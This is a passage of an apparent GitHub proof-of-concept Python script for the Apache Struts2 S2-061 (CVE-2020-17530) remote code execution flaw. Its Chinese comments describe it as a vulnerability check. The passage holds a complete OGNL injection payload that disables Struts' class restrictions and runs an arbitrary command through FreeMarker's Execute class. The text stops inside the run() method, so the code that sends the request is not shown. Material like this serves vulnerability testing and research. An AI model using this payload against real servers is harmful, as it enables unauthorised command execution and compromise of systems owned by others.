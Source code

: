### POC

```python
#!/usr/bin/env python3

import re
import random
import string
import requests

class S2_061_BaseVerify:
    def __init__(self, url):
        self.info = {
            'name': 'S2-061漏洞,又名CVE-2020-17530漏洞',
            'description': 'Struts2 Remote Code Execution Vulnerability, Struts 2.0.0 - Struts 2.5.25',
            'date': '2020-12-08',
            'type': 'RCE'
        }
        self.url = url
        if not self.url.startswith("http") and not self.url.startswith("https"):
            self.url = "http://" + self.url
        if '.action' not in self.url:
            self.url = self.url + '/index.action'

        self.capta = self.get_capta()
        self.headers = {
            'User-Agent': "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/45.0.2454.85 Safari/537.36 115Browser/6.0.3",
            'Content-Type': "application/x-www-form-urlencoded"
        }
       
        self.payload = {
            'name': '''%{('Powered_by_Unicode_Potats0,enjoy_it').(#UnicodeSec = #application['org.apache.tomcat.InstanceManager']).(#potats0=#UnicodeSec.newInstance('org.apache.commons.collections.BeanMap')).(#stackvalue=#attr['struts.valueStack']).(#potats0.setBean(#stackvalue)).(#context=#potats0.get('context')).(#potats0.setBean(#context)).(#sm=#potats0.get('memberAccess')).(#emptySet=#UnicodeSec.newInstance('java.util.HashSet')).(#potats0.setBean(#sm)).(#potats0.put('excludedClasses',#emptySet)).(#potats0.put('excludedPackageNames',#emptySet)).(#exec=#UnicodeSec.newInstance('freemarker.template.utility.Execute')).(#cmd={'cmd_data'}).(#res=#exec.exec(#cmd))}''',
            'age': ''
        }
    
    def get_capta(self):
        
        """
        获取一个随机字符串

        :param:

        :return str capta: 生成的字符串
        """

        capta = ''
        words = ''.join((string.ascii_letters,string.digits))
        for i in range(8):
            capta = capta + random.choice(words)
        return capta

    def run(self):

        """
        检测是否存在漏洞
```